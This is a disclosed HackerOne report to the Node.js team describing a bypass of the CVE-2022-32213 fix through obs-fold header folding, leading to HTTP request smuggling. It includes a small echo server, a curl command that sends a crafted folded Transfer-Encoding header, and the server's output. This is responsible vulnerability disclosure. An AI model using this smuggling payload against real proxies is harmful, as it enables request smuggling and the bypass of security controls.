 # CVE-2022-32213 bypass via obs-fold mechanic

## Report Details
- **Report ID**: 1630336
- **URL**: https://hackerone.com/reports/1630336
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-07-07T17:14:54.017Z
- **Disclosed**: 2022-10-26T08:17:58.972Z

## Reporter
- **Username**: haxatron1
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs

## Vulnerability Information
## Summary
The fix for CVE-2022-32213 can be bypass using an obs-fold, which Node's http parser supports

## Proof-Of-Concept
`````
const http = require('http');

http.createServer((request, response) => {
  let body = [];
  request.on('error', (err) => {
    response.end("error while reading body: " + err)
}).on('data', (chunk) => {
    body.push(chunk);
}).on('end', () => {
    body = Buffer.concat(body).toString();

    response.on('error', (err) => {
        response.end("error while sending response: " + err)
    });

    response.end("Headers: " + JSON.stringify(request.headers));
  });
}).listen(5000);

`````
Send the obs-fold via curl
`````
curl -vv -H $'Transfer-Encoding: chunked\r\n abc' --data "A" http://127.0.0.1:5000
`````
See that the server accepted the chunked request, and will incorrectly fold abc to the value of the Transfer-Encoding header. This is seen in the value of "transfer-encoding" as "chunked abc" in the printed headers.
`````
Headers: {"host":"127.0.0.1:5000","user-agent":"curl/7.83.1","accept":"*/*","transfer-encoding":"chunked abc","content-type":"application/x-www-form-urlencoded"}
`````

## Impact

If nodejs HTTP module is used as a proxy, then it incorrectly parses the transfer-encoding header as indicative of chunked request, while folding the headers and hence forwarding `Transfer-Encoding: chunked abc` which is not a valid transfer-encoding header to the downstream server. As such this can lead to the  HTTP request smuggling as indicated by CVE-2022-32213.

## Attachments
No attachments
